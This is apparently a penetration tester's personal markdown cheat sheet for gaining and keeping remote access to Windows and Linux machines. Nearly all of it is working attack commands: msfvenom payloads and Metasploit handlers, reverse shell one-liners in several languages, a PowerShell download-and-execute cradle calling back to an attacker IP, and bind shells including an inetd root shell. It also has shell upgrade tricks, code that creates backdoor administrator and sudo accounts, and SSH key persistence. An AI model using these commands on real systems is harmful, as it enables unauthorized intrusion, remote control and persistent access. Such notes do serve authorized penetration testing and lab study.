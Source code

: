 # The cheap way

1. Build payload and launch handler according to https://pentest.ws/tools/venom-builder 
> Warning: Use `windows/shell_reverse_tcp`, because `windows/shell/reverse_tcp` is a staged payload.

TCP reverse shell tested
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 -e cmd/powershell_base64 NOEXIT -f exe -o test.exe
```

BAT reverse shell tested
```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.45.197 LPORT=4446 -o revshell.ps1
```

```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD cmd/windows/reverse_powershell; set LHOST 192.168.45.197; set LPORT 4446; run"
```

EXE reverse shell tested
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 -f exe -o revshell.exe
```

PowerShell reverse shell tested
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 NOEXIT -f raw -o revshell.ps1
```
> Important: Do not use the file but instead the powershell command it incorporates within a whole lot of gibberish

Encode payload
```bash
msfvenom --payload $payload LHOST=$hip LPORT=$hport --format psh | msfvenom --payload - --platform win --arch x86 --encoder base64 NOEXIT SYSWOW64
```

# The manual way

[Shell Folder](file:////home/kali/Documents/shells/)

## Determine compatibility
```php
<?php $outarr = array(); exec("whoami;echo ----------BASH;bash --version;echo ----------NC;which nc;echo ----------SOCAT;which socat;echo ----------PYTHON;python --version;echo ----------PHP;php --version;echo ----------PERL;perl --version",$outarr);print_r($outarr); ?>
```
## Universal

PHP (`php -r ''` or `<?php payload ?>)
```php
$sock=fsockopen("$hip",$hport);exec("/bin/sh -i <&3 >&3 2>&3");
```
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$hip/$hport 0>&1'");
```
Python (`python -c ''`)
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$hip",$hport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Perl (`perl -e ''`)
```perl
use Socket;$i="$hip";$p=$hport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```
Meterpreter
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=$port --platform windows -a x64 -f exe -o mp.exe
```

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html

## Windows

Invoke-PowershellTcp.ps1
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:8000/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress 192.168.45.197 -Port 4444"
```
Bind
```powershell
ncat.exe -lknv --allow $hip -e "cmd.exe" 4545
```
NC
```powershell
ncat.exe $hip $hport -e "cmd /c (cmd 2>&1)"
```
CMD2PS
```powershell
powershell.exe -nop -NoExit -NonInteractive -EP Bypass -c "\inetpub\wwwroot\Invoke-PowsershellTcp.ps1 -Reverse -IPAddress $hip -Port $hport"
```
PS
```powershell
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('$hip',$hport);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


## Linux

Bash
```bash
bash -i >& /dev/tcp/$hip/$hport 0>&1
```
NC v1
```bash
nc -e /bin/sh $hip $hport
```
NC v2
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $hip $hport >/tmp/f
```
inetd Bind Shell
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf && /etc/init.d/inetd restart
```

## Upgrades

Determine compatibility
```bash
whoami;echo ----------BASH;bash --version;echo ----------NC;which nc;echo ----------SOCAT;which socat;echo ----------PYTHON;python --version;echo ----------PHP;php --version;echo ----------PERL;perl --version
```
Perl
```perl
perl -e 'exec "/bin/bash";'
```
Bash
```bash
echo os.system('/bin/bash')
```
Python
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Socat (https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.182:4445
```

Encrypted Socat
- Create certificate
   ```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt && cat bind_shell.key bind_shell.crt > bind_shell.pem
```
- Open Listener
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
- Connect to it via the target machine
```bash
socat - OPENSSL:$ip:443,verify=0
```

Via tty
1. Background reverse shell with Strg+Z
2. Get information about the shell and set its output to echo
```bash
echo $TERM && stty -a && stty raw -echo
```
3. Open the shell again with `fg` (you won't see it get displayed)
4. Enter `reset` (this should get displayed again as we're now within the reverse shell)
5. Edit reverse shell parameters according to the information gathered in the second step
```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
## Fixes
Check wheter we are in CMD or Powershell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
Check if `bash` is interactive
```bash
[[ $- == *i* ]] && echo 'Interactive' || echo 'Not interactive'
```
Check if `PS` is interactive
```powershell
[Environment]::GetCommandLineArgs()
```
Get Window Size
```bash
stty size
```
Fix Window Size
```bash
stty rows X cols Y
```
Fix PATH
```bash
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
Reload bash
```bash
exec /bin/bash
```


# Create Admin-User

##### Windows
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
(See [[8_crosscompile2windows_guide]])
##### Linux
```bash
sudo adduser --system --shell /bin/bash --no-create-home us3r && echo -e 'Testp4ssw0rd\nTestp4ssw0rd' | sudo passwd us3r && sudo usermod -aG sudo us3r
```

## Setup SSH

(kali)
`ssh-keygen -t rsa -b 4096 -C "$username@$domain" -f ./created_id_rsa`
`python3 -m http.server 8080`

(target)
`curl -L http://$hip:8080/created_id_rsa.pub -o id_rsa.pub`
`cat id_rsa.pub >> .ssh/authorized_keys`
`chmod 600 .ssh/authorized_keys`